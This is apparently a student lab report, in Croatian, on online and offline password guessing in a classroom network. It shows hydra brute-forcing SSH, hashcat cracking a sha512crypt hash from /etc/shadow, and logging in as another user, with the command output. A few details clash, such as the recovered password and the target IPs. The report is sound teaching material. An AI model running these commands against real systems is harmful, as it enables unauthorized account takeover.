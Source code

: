 # Izvještaj (5.)

# **Izvještaj pete laboratorijske vježbe**

### **Zadatak**

Online and offline password guessing attacks

### **Alati**

**Online Password Guessing**

**Provjera dohvaćanja servera**

`ping a507-server.local`

**Instaliranje nmap**

`sudo apt-get update
sudo apt-get install nmap`

**IP adresa i username dodjeljena meni**

baresic_mihael 10.0.15.3

**Uspostava ssh**

`ssh baresic_mihael@10.0.15.3`

**Koristeći hidru probamo sve kombinacije za lozinku**

`hydra -l baresic_mihael-x 4:6:a 10.0.15.3 -V -t 1 ssh`

**Downloadamo rječnik s mogućim lozinkama**

`wget -r -nH -np --reject "index.html*" [http://a507-server.local:8080/dictionary/g5/](http://a507-server.local:8080/dictionary/g5/)`

**Pronađena lozinka**

`[ATTEMPT] target 10.0.15.3 - login "baresic_mihael" - pass "mmebep" - 569 of 878 [child 1] (0/0)
[22][ssh] host: 10.0.15.3 login: baresic_mihael password: mypass
1 of 1 target successfully completed, 1 valid password found
Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) finished at 2021-12-20 13:59:33`

**Pokušaj login-a s točnom lozinkom**

`a507@DESKTOP-LH5GUL2:/mnt/c/Users/A507$ ssh baresic_mihael@10.0.15.3 
baresic_mihael@10.0.15.3 's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)

Documentation: [https://help.ubuntu.com](https://help.ubuntu.com/)
Management: [https://landscape.canonical.com](https://landscape.canonical.com/)
Support: [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.`

**Offline Password Guessing**

**Instaliranje hashcat**

`sudo apt-get install hashcat`

**Pokušamo lozinke (brute force)**

`hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10`

**Pokušamo korištenjem dictionary_offline.txt**

`hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10`

**Korištenjem naredbe ispod pronađemo hash vrijednost jean doe i pokušamo se ulogirati**

`sudo cat /etc/shadow`

`$6$ovKwVzQdmdxJr3tS$0Y1ct6I5oJnJAH5sCadWMn8hRvfsE4Andj.M9adN2YMbu$zMGCw/cIzT6J3tpVZikwhR63A6v8R0.qyy73jvE1:igblev

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$ovKwVzQdmdxJr3tS$0Y1ct6I5oJnJAH5sCadWMn8hRvfsE4A...73jvE1
Time.Started.....: Mon Dec 20 14:20:46 2021 (1 min, 4 secs)
Time.Estimated...: Mon Dec 20 14:21:50 2021 (0 secs)
Guess.Base.......: File (dictionary/g5/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 450 H/s (6.67ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 28672/50078 (57.25%)
Rejected.........: 0/28672 (0.00%)
Restore.Point....: 28416/50078 (56.74%)
Candidates.#1....: kenale -> knzgzj
HWMon.Dev.#1.....: N/A
Started: Mon Dec 20 14:20:43 2021
Stopped: Mon Dec 20 14:21:51 2021`

`ssh jean_doe@10.0.15.8
jean_doe@10.0.15.5's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)`

`jean_doe@host_baresic_mihael:~$ whoami
jean_doe`